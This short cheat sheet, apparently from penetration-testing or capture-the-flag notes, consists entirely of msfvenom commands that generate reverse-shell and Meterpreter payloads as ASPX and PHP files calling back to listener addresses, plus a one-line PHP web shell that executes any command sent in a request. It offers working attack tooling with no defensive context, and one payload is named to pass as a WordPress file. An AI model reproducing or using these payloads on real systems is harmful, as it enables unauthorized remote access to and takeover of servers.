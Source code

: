 ### aspx

    msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.30 LPORT=4444 -o reverse-shell.aspx
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.17.46 LPORT=4444 -f aspx -o rshell.aspx

### php  

    msfvenom -p php/reverse_php LHOST=10.10.17.46 LPORT=4444 -f raw -o testwp-load.php

<?php system($_REQUEST["cmd"]); ?>
